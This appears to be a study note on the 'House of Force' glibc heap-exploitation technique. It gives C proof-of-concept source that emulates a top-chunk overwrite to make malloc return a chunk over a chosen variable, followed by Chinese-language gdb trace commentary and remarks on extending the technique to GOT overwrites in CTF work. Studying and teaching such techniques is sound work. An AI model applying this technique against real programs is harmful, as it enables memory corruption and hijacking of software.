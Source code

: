 # house_of_force.log

## source code
```cpp
/*

   This PoC works also with ASLR enabled.
   It will overwrite a GOT entry so in order to apply exactly this technique RELRO must be disabled.
   If RELRO is enabled you can always try to return a chunk on the stack as proposed in Malloc Des Maleficarum 
   ( http://phrack.org/issues/66/10.html )

   Tested in Ubuntu 14.04, 64bit.

*/


#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

char bss_var[] = "This is a string that we want to overwrite.";

int main(int argc , char* argv[])
{
	printf("\nWelcome to the House of Force\n\n");
	printf("The idea of House of Force is to overwrite the top chunk and let the malloc return an arbitrary value.\n");
	printf("The top chunk is a special chunk. Is the last in memory "
		"and is the chunk that will be resized when malloc asks for more space from the os.\n");

	printf("\nIn the end, we will use this to overwrite a variable at %p.\n", bss_var);
	printf("Its current value is: %s\n", bss_var);



	printf("\nLet's allocate the first chunk, taking space from the wilderness.\n");
	intptr_t *p1 = malloc(256);
	printf("The chunk of 256 bytes has been allocated at %p.\n", p1);

	printf("\nNow the heap is composed of two chunks: the one we allocated and the top chunk/wilderness.\n");
	int real_size = malloc_usable_size(p1);
	printf("Real size (aligned and all that jazz) of our allocated chunk is %d.\n", real_size);

	printf("\nNow let's emulate a vulnerability that can overwrite the header of the Top Chunk\n");

	//----- VULNERABILITY ----
	intptr_t *ptr_top = (intptr_t *) ((char *)p1 + real_size);
	printf("\nThe top chunk starts at %p\n", ptr_top);

	printf("\nOverwriting the top chunk size with a big value so we can ensure that the malloc will never call mmap.\n");
	printf("Old size of top chunk %#llx\n", *((unsigned long long int *)ptr_top));
	ptr_top[0] = -1;
	printf("New size of top chunk %#llx\n", *((unsigned long long int *)ptr_top));
	//------------------------

	printf("\nThe size of the wilderness is now gigantic. We can allocate anything without malloc() calling mmap.\n"
	   "Next, we will allocate a chunk that will get us right up against the desired region (with an integer\n"
	   "overflow) and will then be able to allocate a chunk right over the desired region.\n");

	unsigned long evil_size = (unsigned long)bss_var - sizeof(long)*2 - (unsigned long)ptr_top;
	printf("\nThe value we want to write to at %p, and the top chunk is at %p, so accounting for the header size,\n"
	   "we will malloc %#lx bytes.\n", bss_var, ptr_top, evil_size);
	void *new_ptr = malloc(evil_size);
	printf("As expected, the new pointer is at the same place as the old top chunk: %p\n", new_ptr);

	void* ctr_chunk = malloc(100);
	printf("\nNow, the next chunk we overwrite will point at our target buffer.\n");
	printf("malloc(100) => %p!\n", ctr_chunk);
	printf("Now, we can finally overwrite that value:\n");

	printf("... old string: %s\n", bss_var);
	printf("... doing strcpy overwrite with \"YEAH!!!\"...\n");
	strcpy(ctr_chunk, "YEAH!!!");
	printf("... new string: %s\n", bss_var);


	// some further discussion:
	//printf("This controlled malloc will be called with a size parameter of evil_size = malloc_got_address - 8 - p2_guessed\n\n");
	//printf("This because the main_arena->top pointer is setted to current av->top + malloc_size "
	//	"and we \nwant to set this result to the address of malloc_got_address-8\n\n");
	//printf("In order to do this we have malloc_got_address-8 = p2_guessed + evil_size\n\n");
	//printf("The av->top after this big malloc will be setted in this way to malloc_got_address-8\n\n");
	//printf("After that a new call to malloc will return av->top+8 ( +8 bytes for the header ),"
	//	"\nand basically return a chunk at (malloc_got_address-8)+8 = malloc_got_address\n\n");

	//printf("The large chunk with evil_size has been allocated here 0x%08x\n",p2);
	//printf("The main_arena value av->top has been setted to malloc_got_address-8=0x%08x\n",malloc_got_address);

	//printf("This last malloc will be served from the remainder code and will return the av->top+8 injected before\n");
}
```

## environment
Ubuntu x64 libc.so.23
gdb-peda

## trace
0x602060是bss_var所在地址，实际上bss_var应该在.data段，这里应该是笔者记错了，但无伤大雅。
![](./images/20171030_1.jpg)

0x603410是新分配的chunk：
![](./images/20171030_2.jpg)

通过malloc_usable_size(p1)找到top chunk的头（curSize字段，preSize此时已借给prev chunk）。
改写top chunk的curSize大小为-1，也就是全F：
![](./images/20171030_3.jpg)

这样一来就没有了动态阈值的mmap参与进来，都是直接从top chunk切，尽管top chunk并没有那么大。
为了覆盖到bss_var，下一次我们需要分配evil_size大小的chunk：
![](./images/20171030_4.jpg)

此时，top chunk正常分配出evil_size大小的chunk，一路延展到.data段的bss_var。且bss_var的起始地址前16bytes处成为了新的top chunk：
![](./images/20171030_5.jpg)

再次malloc时，就返回了bss_var的地址，然后就可以为所欲为了。这里尺寸选择了100：
![](./images/20171030_6.jpg)

实际上分配了(100+16-8)align(16)=112=0x70的chunk。
![](./images/20171030_7.jpg)

further discussion讨论了关于覆盖malloc got address的想法，实际上你可以覆盖bss_var，就可以覆盖其他的货色，无非就是计算evil_size的大小罢了。具体覆盖谁，用什么来覆盖需要考察具体的环境，找出突破口，这在ctf题中是非常常见的。